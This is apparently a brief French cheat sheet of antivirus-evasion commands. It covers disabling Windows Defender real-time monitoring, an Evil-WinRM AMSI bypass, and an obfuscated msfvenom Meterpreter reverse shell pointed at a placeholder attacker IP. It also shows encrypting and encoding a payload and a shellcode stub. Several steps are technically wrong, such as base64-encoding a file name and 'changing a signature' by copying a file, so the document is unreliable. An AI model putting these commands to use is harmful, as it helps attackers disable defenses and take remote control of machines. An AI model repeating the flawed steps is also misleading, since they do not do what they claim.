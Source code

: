 
# Powershell

```powershell
powershell -ep bypass
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Evil-Winrm

```bash
# winrm
menu
Bypass-4MSI
```

# Générer un payload encodé en Base64

```bash
echo -n "payload.exe" | base64 > payload.b64
```

## Chiffrer un binaire

```bash
openssl enc -aes-256-cbc -salt -in payload.exe -out payload_enc.exe -k secret
```

# Changer la signature binaire

```bash
mv payload.exe payload.bak && cp payload.bak payload.exe
strip --strip-debug payload.exe
```

# Obfuscation avec msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attaquant_ip> LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > payload.exe
```

# Injection shellcode avec Python

```bash
python3 -c 'import sys; shellcode = "\x90\x90..."; sys.stdout.buffer.write(shellcode)'
```